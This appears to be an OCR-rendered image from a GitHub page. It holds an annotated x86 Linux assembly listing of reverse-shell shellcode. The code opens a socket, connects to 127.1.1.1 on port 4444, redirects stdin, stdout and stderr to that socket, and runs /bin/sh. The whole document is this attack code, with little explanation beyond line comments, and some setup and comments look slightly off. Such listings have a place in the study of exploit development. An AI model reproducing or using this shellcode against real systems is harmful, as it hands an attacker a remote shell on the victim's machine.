 ```nasm
  xor  edx, edx    ; zero out edx

  ; int socket(int domain, int type, int protocol);
  push edx         ; protocol = IPPROTO_IP (0x0)
  push ebx         ; socket_type = SOCK_STREAM (0x1)
  push 0x2         ; socket_family = AF_INET (0x2)
  mov  ecx, esp    ; move stack pointer to ecx
  int  0x80        ; syscall (exec sys_socket)
  xchg edx, eax    ; save result (sockfd) for later usage

  ; int socketcall(int call, unsigned long *args);
  mov  al, 0x66    ; socketcall 102

  ; int connect(int sockfd, const struct sockaddr *addr,
  ; socklen_t addrlen);
  push 0x0101017f  ; sin_addr = 127.1.1.1 
                   ; (network byte order)
  push word 0x5c11 ; sin_port = 4444
  inc  ebx         ; ebx = 0x02
  push word bx     ; sin_family = AF_INET
  mov  ecx, esp    ; move stack pointer to sockaddr struct

  push 0x10        ; addrlen = 16
  push ecx         ; const struct sockaddr *addr
  push edx         ; sockfd
  mov  ecx, esp    ; move stack pointer to ecx (sockaddr_in struct)
  inc  ebx         ; sys_connect (0x3)
  int  0x80        ; syscall (exec sys_connect)

  ; int socketcall(int call, unsigned long *args);
  ; duplicate the file descriptor for
  ; the socket into stdin, stdout, and stderr
  ; dup2(sockfd, i); i = 1, 2, 3
  push 0x2         ; set counter to 2
  pop  ecx         ; zero to ecx (reset for newfd loop)
  xchg ebx, edx    ; save sockfd

dup:
  mov  al, 0x3f    ; sys_dup2 = 63 = 0x3f
  int  0x80        ; syscall (exec sys_dup2)
  dec  ecx         ; decrement counter
  jns  dup         ; as long as SF is not set -> jmp to dup

  ; spawn /bin/sh using execve
  ; int execve(const char *filename, char 
  ; *const argv[],char *const envp[]);
  mov  al, 0x0b    ; syscall: sys_execve = 11 (mov eax, 11)
  inc  ecx         ; argv=0
  mov  edx, ecx    ; envp=0
  push edx         ; terminating NULL
  push 0x68732f2f   ; "hs//"
  push 0x6e69622f   ; "nib/"
  mov  ebx, esp    ; save pointer to filename
  int  0x80        ; syscall: exec sys_execve
```
